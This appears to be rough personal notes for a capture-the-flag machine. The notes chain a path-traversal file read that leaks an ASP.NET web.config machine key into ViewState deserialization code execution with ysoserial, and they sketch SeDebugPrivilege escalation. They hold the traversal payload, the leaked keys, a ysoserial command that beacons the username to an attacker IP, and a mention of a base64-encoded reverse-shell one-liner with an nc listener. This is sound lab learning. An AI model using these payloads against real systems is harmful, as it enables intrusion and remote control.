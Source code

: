 ## **1. Initial Enumeration - Finding the Subdomain (`dev.pov.htb`)**

- The machine starts with a **business webpage**.
- Enumerating the site (e.g., using `gobuster` or `ffuf`) reveals a **subdomain: `dev.pov.htb`**.
- This suggests that there is a development/testing environment, which often has security misconfigurations.

---

## **2. Remote File Read Vulnerability**

- The **`dev.pov.htb`** subdomain has a **download functionality**.
- This feature is **vulnerable to Local File Inclusion (LFI)**, allowing an attacker to read arbitrary files on the server.
- By exploiting this, the attacker **retrieves `web.config`**, a critical file in **ASP.NET applications** that often contains sensitive information like:
    - **Database credentials**
    - **Encryption keys**
    - **Application settings**

---

## **3. Exploiting ViewState Insecure Deserialization**

- The web application uses **ASP.NET ViewState**, which stores page state data.
    
- If ViewState is **not properly secured**, an attacker can manipulate it to perform **arbitrary code execution**.
    
- With the **secrets leaked from `web.config`**, the attacker can:
    
    - **Generate a malicious ViewState payload**.
    - **Bypass MAC validation** (if machine key is leaked).
    - **Trigger remote code execution (RCE)**.
- This results in **command execution as `sfitz`**, a low-privileged user on the system.
    

---

## **4. Moving Laterally - Finding Credentials for `alaading`**

- Once the attacker has **file system access as `sfitz`**, they search for **sensitive files**.
- A key discovery is a **file that contains credentials** for another user: `alaading`.
- These credentials allow the attacker to switch to `alaading`, **escalating privileges further**.

---

## **5. Privilege Escalation - Abusing `SeDebugPrivilege`**

- The user `alaading` has **SeDebugPrivilege**, which allows:
    
    - Attaching a debugger to **high-privilege processes**.
    - Modifying processes running as `SYSTEM`.
- By exploiting `SeDebugPrivilege`, the attacker can **inject code into a privileged process**, ultimately **executing commands as `NT AUTHORITY\SYSTEM`**, the highest privilege level in Windows.
    

---

## **Final Outcome**

- The attacker **gains full control** over the machine by chaining:
    1. **Web vulnerability exploitation** (LFI to leak `web.config`).
    2. **ViewState deserialization attack** (RCE as `sfitz`).
    3. **Finding and using credentials** for `alaading`.
    4. **Abusing `SeDebugPrivilege`** to execute commands as **SYSTEM**.


---
## enumeration

ip= 10.10.11.251
```bash
┌──(pwn㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- -T4 10.10.11.251
[sudo] password for pwn: 
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
-visit <> http://10.10.11.251
-edit /etc/hosts
-found `pov.htb`

sfitz@pov.htb
http://dev.pov.htb/portfolio/

Stephen Fitz

Web frameworks:
Microsoft ASP.NET 
.aspx
default.aspx
web.config <> windows iis
```
`default.aspx` → Refers to the **default page** of an ASP.NET web application.
```
-I think his work is good however I noticed that he did not perform good secure coding practices especially when programming in `ASP.Net`
```
intercept via burpsuit when preesing on the cv download

_EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=qd9RtNzmAZScCoXOybI42D4rMsjizAW3IIgogQDLcMcM5yvFrvDtWVn5t%2BHgA99JrFLe76JDzkCU3jlnIunnKHHzRhI%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=48BkbX0d%2BuKA0HNVvPk8wI3t0IMCjCXR1v3h3LuaKphMezdWT7ijBq0R80Ob27xvn%2BwcjzFp8SiSwUSsWkBcasRO24nGNPn9wDuIEHAj4kScet3uy9%2FRiffz266oVnR4dZlkNw%3D%3D&file=index.aspx.cs

file=..././web.config

```
---
```
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: application/octet-stream
Server: Microsoft-IIS/10.0
Content-Disposition: attachment; filename=../web.config
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Sun, 16 Feb 2025 11:34:18 GMT
Content-Length: 866
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>

```

---
```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c “powershell.exe Invoke-WebRequest -Uri http://10.10.14.25/$env:UserName" — path=”/portfolio/contact.aspx” — apppath=”/” — decryptionalg=”AES” — decryptionkey=”74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" — validationalg=”SHA1" — validationkey=”5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
![[Pasted image 20250216155029.png]]

```bash
┌──(pwn㉿kali)-[~/POV]
└─$ cat Invoke-PowerShellTcpOneLine.ps1                        nishang webshell                                                                    
┌──(pwn㉿kali)-[~/POV]
└─$ cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le |base64 -w 0

```

```
open python3 http server
set up nc -nlvp 9999
copy the base 64

.\ysoserial.exe .....
```
![[Pasted image 20250216162808.png]]
`-i have issue with copy pasting from windows <> host or kali`

---

-i will use wine 
```bash
sudo apt install mono-complete wine winetricks -y
```


---

```
<machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
```